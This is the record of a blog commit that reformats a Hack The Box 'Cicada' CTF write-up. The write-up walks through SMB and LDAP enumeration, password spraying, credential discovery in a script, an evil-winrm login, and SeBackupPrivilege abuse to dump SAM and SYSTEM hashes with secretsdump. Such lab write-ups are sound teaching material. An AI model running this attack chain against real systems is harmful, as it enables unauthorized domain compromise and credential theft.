

Before and after one commit to ricobandy/ricobandy.github.io, a Jekyll site: the page built from _posts/2025-02-15-Cicada-HTB.md, in a window 1280 px wide and 1400 px high, scrolled down 9252 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
cicada update

````diff
--- a/_posts/2025-02-15-Cicada-HTB.md
+++ b/_posts/2025-02-15-Cicada-HTB.md
@@ -55,7 +54,7 @@ PORT      STATE SERVICE
 54260/tcp open  unknown
 ```
 
-- NMAP UDP Port Scan
+- nmap UDP Port Scan
 
 ```
 $ sudo nmap -sU -p- --min-rate 10000 10.129.118.69
@@ -69,7 +68,7 @@ PORT    STATE SERVICE
 123/udp open  ntp
 ```
 
-- NMAP Service Scans
+- nmap Service Scans
 
 ```
 $ sudo nmap -p- --min-rate 10000 10.129.118.69 -sV -sC
@@ -131,7 +130,8 @@ Nmap done: 1 IP address (1 host up) scanned in 108.84 seconds
 
 ### 445 - SMB
 
-- Guest account can enumerate shares
+Guest account can enumerate shares
+
 ```
 $ nxc smb 10.129.118.69 -u guest -p '' --shares
 SMB         10.129.118.69   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
@@ -148,7 +148,7 @@ SMB         10.129.118.69   445    CICADA-DC        NETLOGON
 SMB         10.129.118.69   445    CICADA-DC        SYSVOL                          Logon server share
 ```
 
-- Using nxc spider_plus module, there was a note in the HR share
+Using nxc spider_plus module, there was a note in the HR share
 
 ```
 $ nxc smb 10.129.118.69 -u guest -p '' -M spider_plus
@@ -194,7 +194,7 @@ SPIDER_PLUS 10.129.118.69   445    CICADA-DC        [*] File size max:        1.
 }
 ```
 
-- Downloading the note
+Downloading the note
 
 ```
 $ smbclient \\\\10.129.118.69\\HR guest
@@ -211,7 +211,7 @@ getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (33.4 KiloBy
 smb: \>
 ```
 
-- We have a password from the note but no usernames yet
+We have a password from the note but no usernames yet
 
 ```
 $ cat Notice\ from\ HR.txt
@@ -240,7 +240,7 @@ Best regards,
 Cicada Corp
 ```
 
-- Using RID Brute forcing
+Using RID Brute forcing
 
 ```
 $ nxc smb 10.129.118.69 -u guest -p '' --rid-brute
@@ -279,7 +279,7 @@ SMB         10.129.118.69   445    CICADA-DC        1109: CICADA\Dev Support (Si
 SMB         10.129.118.69   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
 ```
 
-- Testing all found users with the default password
+Testing all found users with the default password
 
 ```
 nxc smb 10.129.118.69 -u final-users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
@@ -297,7 +297,8 @@ The user `michael.wrightson` authenticates to SMB and LDAP with this default pas
 
 ### 389 - LDAP
 
-- With LDAP access, we enumerate further to find password for user `david.orelious`
+With LDAP access, we enumerate further to find password for user `david.orelious`
+
 ```
 $ nxc ldap 10.129.118.69 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'  --users
 SMB         10.129.118.69   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
@@ -314,7 +315,7 @@ LDAP        10.129.118.69   389    CICADA-DC        david.orelious
 LDAP        10.129.118.69   389    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 0
 ```
 
-- Enumerating user `david.orelious` on SMB, we had access to new share DEV
+Enumerating user `david.orelious` on SMB, we had access to new share DEV
 
 ```
 $ nxc smb 10.129.118.69 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
@@ -332,7 +333,8 @@ SMB         10.129.118.69   445    CICADA-DC        NETLOGON        READ
 SMB         10.129.118.69   445    CICADA-DC        SYSVOL          READ            Logon server share
 ```
 
-- After spidering the DEV share, I found a script,  "Backup_script.ps1"
+After spidering the DEV share, I found a script  "Backup_script.ps1"
+
 ```
 $ nxc smb 10.129.118.69 -u david.orelious -p 'aRt$Lp#7t*VQ!3' -M spider_plus
 SMB         10.129.118.69   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
@@ -374,10 +376,9 @@ SPIDER_PLUS 10.129.118.69   445    CICADA-DC        [*] File size max:        5.
             "size": "601 B"
         }
     },
-
 ```
 
-- From the script we found another creds for user emily.oscars
+From the script we found another creds for user emily.oscars
 
 ```
 $ cat Backup_script.ps1
@@ -397,7 +398,7 @@ Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath
 
 ## Foothold as emily.oscars
 
-- This user has remote access to the server
+This user has remote access to the server
 
 ```
 $ nxc winrm 10.129.118.69 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
@@ -405,7 +406,7 @@ WINRM       10.129.118.69   5985   CICADA-DC        [*] Windows Server 2022 Buil
 WINRM       10.129.118.69   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
 ```
 
-- With the user found we connect remotely to the server to get the user.txt
+With the user found we connect remotely to the server to get the user.txt
 
 ```
 $ evil-winrm -i 10.129.118.69 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
@@ -430,8 +431,8 @@ Mode                 LastWriteTime         Length Name
 
 ## Privilege Escalation
 
-- This user is part of the `Backup Operators` group and has the `SeBackupPrivilege` and `SeRestorePrivilege` privileges
-- Using robocopy to copy the root flag
+This user is part of the `Backup Operators` group and has the `SeBackupPrivilege` and `SeRestorePrivilege` privileges. Using robocopy to copy the root flag
+
 ```
 *Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> robocopy /b C:\Users\Administrator\Desktop\ C:\
 
@@ -510,7 +511,7 @@ aff04caa2716dd1f90e3370609990de5
 *Evil-WinRM* PS C:\>
 ```
 
-- Also we can backup the sam and system files for hash extraction
+- We can also backup the sam and system files for hash extraction
 
 ```
 *Evil-WinRM* PS C:\windows\temp> reg save hklm\sam SAM
@@ -533,7 +534,8 @@ Info: Download successful!
 
 ```
 
-- Successfully extracted the hashes
+Successfully extracted the hashes
+
 ```
 $ secretsdump.py LOCAL -sam SAM -system SYSTEM
 Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies
````
Also changed, not shown: other parts of _posts/2025-02-15-Cicada-HTB.md (+11 -10 lines).
